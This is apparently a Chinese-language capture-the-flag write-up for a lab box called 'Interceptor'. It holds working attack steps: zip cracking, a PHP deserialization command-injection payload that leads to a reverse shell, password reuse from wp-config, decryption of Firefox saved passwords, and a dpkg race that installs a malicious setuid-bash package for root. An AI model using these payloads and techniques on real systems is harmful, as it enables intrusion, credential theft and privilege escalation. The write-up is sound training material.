## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/Interceptor  
❯ nmap 192.168.56.123 -sV -A  -p- 

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
```

## Gobuster

```
[root@kali] /home/kali/Interceptor  
❯ gobuster dir -u http://192.168.56.123 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.123
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.123/wordpress/]
/backup               (Status: 301) [Size: 317] [--> http://192.168.56.123/backup/]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
/fping.php            (Status: 200) [Size: 1958]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Crack ZIP

在**/backup**里发现一个压缩包，应该是涉及到了**/fping**这个路由的。

```
[root@kali] /home/kali/Interceptor  
❯ zip2john secure-backup.zip >>zip.hash                                                                                                                   ⏎
ver 2.0 efh 5455 efh 7875 secure-backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=1692, decmplen=5976, crc=5ACA40D5 ts=509C cs=509c type=8

[root@kali] /home/kali/Interceptor  
❯ john zip.hash /usr/share/wordlists/rockyou.txt                                            

zxcvbnm          (secure-backup.zip/source_code.php)   
```

**source\_code.php**👇

```
<?php
session_start();

$valid_username = "";
$valid_password = "";

if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST['login'])) {
    $username = $_POST['username'];
    $password = $_POST['password'];

    if ($username === $valid_username && $password === $valid_password) {
        $_SESSION['logged_in'] = true;
    } else {
        $login_error = "Invalid credentials.";
    }
}

if (isset($_GET['logout'])) {
    session_destroy();
    header("Location: " . $_SERVER['PHP_SELF']);
    exit;
}

if (!isset($_SESSION['logged_in']) || $_SESSION['logged_in'] !== true) {
    ?>
    <?php
    exit;
}

class pingTest {
    public $ipAddress = "127.0.0.1";
    public $isValid = False;
    public $output = "";

    function validate() {
        if (!$this->isValid) {
            if (filter_var($this->ipAddress, FILTER_VALIDATE_IP) || strpos($this->ipAddress, ";") !== false) {
                $this->isValid = True;
            }
        }
        $this->ping();
    }

    public function ping() {
        if ($this->isValid) {
            $this->output = shell_exec("ping -c 3 $this->ipAddress");    
        }
    }
}

if (isset($_POST['session_data'])) {
    $pingTest = @unserialize(urldecode($_POST['session_data']));

    if ($pingTest !== false && is_object($pingTest)) {
        $pingTest->validate();
    } else {
        die("Deserialization error.");
    }
} else {
    $pingTest = new pingTest;
    $pingTest->validate();
}

?>
```

可以看到登录成功之后，存在一个**shell\_exec**的命令执行，可以控制参数，但是并不知道具体的用户名和密码。不过可以在源码中看到存在一个**POST**变量可以进行反序列化操作

## WPscan

没有发现能够直接利用的插件

但是发现了一个调试日志





似乎存在一个**myapi**的插件，这个插件没有被**WPscan**检查到

## Own www-data

直接访问可以看到存在一个**data.json**



里面包含了一些用户信息



经过尝试，下面是可以登录的用户

```
sakura_rose:rWzB2jRpUefo
```

接下来查看反序列化部分，检查**IP**只要合法或者存在分号就行

```
    function validate() {
        if (!$this->isValid) {
            if (filter_var($this->ipAddress, FILTER_VALIDATE_IP) || strpos($this->ipAddress, ";") !== false) {
                $this->isValid = True;
            }
        }
        $this->ping();
    }
```

因此可以如下构造

```
<?php
class pingTest {
    public $ipAddress = "127.0.0.1|ls";
    public $isValid = True;
    public $output = "";

}
echo urlencode(serialize(new pingTest()));
```



拿到**www-data**的反弹**Shell**



## Own Vincent

查看到存在另外三个用户



查看**wp-config.php**

```
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'Lg:80/f,3>g+' );
```

数据库中并没有可以利用的东西，不过这个密码可以尝试一下是否存在密码复用的问题。

刚好可以登录到**Vincent**的**ftp**服务



不能直接上传**SSH**密钥，这里只能通过**www-data**来切换用户

## Own ftpuser

查看到**vincent**目录下有一个**.mozilla**目录，并且有很多数据库文件



利用工具：[blackunixteam/firefox\_decrypt](https://github.com/blackunixteam/firefox_decrypt)

拿到密码尝试登录其他的用户



刚好可以切换到**ftpuser**上



## Root

查看**ftpuser**的特殊命令

```
ftpuser@debian:~$ sudo -l
sudo -l
Matching Defaults entries for ftpuser on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ftpuser may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /usr/bin/installer

ftpuser@debian:~$ cat /usr/bin/installer
cat /usr/bin/installer
#!/bin/bash
/usr/bin/apt-get install -y curl
/usr/bin/wget --no-check-certificate -O /tmp/monitoring-agent.deb https://monitoring-secure.com/monitoring-agent.deb
/usr/bin/dpkg -i /tmp/monitoring-agent.deb
/bin/rm -rf /tmp/monitoring-agent.deb
```

可以看到，下载到**deb**包之后进行安装，随后又立即删除，这里可以尝试时间竞争，通过**dpkg**进行提权

- [dpkg | GTFOBins](https://gtfobins.github.io/gtfobins/dpkg/)

需要提前安装**fpm**

```
gem install fpm
```

然后制作恶意**deb**上传上去

```
[root@kali] /home/kali/Interceptor  
❯ TF=$(mktemp -d)

[root@kali] /home/kali/Interceptor  
❯ echo 'chmod u+s /bin/bash' > $TF/x.sh

[root@kali] /home/kali/Interceptor  
❯ fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```

这里我开了两个**ftpuser**的终端，可以再弹一个**shell**

分别运行

```
sudo /usr/bin/installer
```

还有

```
ftpuser@debian:/tmp$ cat poc.sh
cat poc.sh
#!/bin/bash

for i in {1..10000}
do
    cp /tmp/x_1.0_all.deb /tmp/monitoring-agent.deb
done

ftpuser@debian:/tmp$ bash poc.sh
bash poc.sh
```

最后成功拿到**root**权限



## Summary

`User`：**wpscan**扫到调试日志，根据插件查找到用户数据，进而登录到**fping**进行命令执行，拿到**www-data**。查看到**wp-config**的密码，存在密码复用，拿到**vincent**。通过解密**vincent**目录下的**firefox**用户数据，拿到了**ftpuser**权限。

`Root`：通过时间竞争，恶意覆盖**deb**包，然后通过**dpkg**进行提权。
